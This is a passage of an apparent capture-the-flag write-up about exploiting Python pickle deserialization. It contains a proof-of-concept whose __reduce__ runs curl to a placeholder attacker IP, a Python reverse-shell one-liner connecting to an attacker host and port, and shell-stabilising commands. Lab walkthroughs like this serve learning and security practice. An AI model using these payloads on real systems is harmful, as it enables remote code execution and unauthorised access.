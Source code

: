 ### PoC:

```python
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...  
![31b80fbbf11c37b21fca33a323d9ba51.png](./_resources/31b80fbbf11c37b21fca33a323d9ba51.png)

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```
